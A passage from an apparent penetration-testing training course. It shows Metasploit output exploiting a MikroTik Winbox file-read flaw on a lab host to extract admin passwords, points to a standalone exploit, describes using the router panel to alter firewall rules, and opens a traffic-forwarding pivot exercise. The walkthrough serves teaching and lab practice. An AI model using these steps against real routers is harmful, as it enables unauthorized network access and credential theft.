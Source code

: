 ```bash
msf6 auxiliary(gather/mikrotik_winbox_fileread) > run

[*] Running for 192.168.56.103...
[*] 192.168.56.103 - Session ID: 1
[*] 192.168.56.103 - Requesting user database through exploit
[*] 192.168.56.103 - Exploit successful, attempting to extract usernames & passwords
[*] 192.168.56.103 - Extracted Username: "admin" and password "password"
[*] 192.168.56.103 - Extracted Username: "admin" and password "P@sSw0rd!"
[*] 192.168.56.103 - Extracted Username: "admin" and password ""
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
 
```
4. We get the login and password of the device administrator.

### Method 2

This vulnerability could be exploited without MSF using a separate exploit: https://www.exploit-db.com/exploits/45578

1. Enter the device management interface through a browser using the extracted password:

![Screenshot](10.5/image1.png)

2. The administration panel of the router allows you to get information about network interfaces, change firewall rules and use it to access the attacked network.

# Level 6 — 11.3 — Practice "Traffic Forwarding"

## Task
This task has two hosts and two web servers. Let's call them jump and target.

You have been granted access to a web application on the jump node. It will open for you at localhost:1337.
 

Analyze the security of the panel located on the website of the jump node and exploit the vulnerabilities found. Find the target node on the same network as the jump node (the target node is not directly accessible to you). When you find the target node, parse the target web application and find the files published to the web server in it. To do this, learn how to forward traffic for scanning through the jump node to the target node.
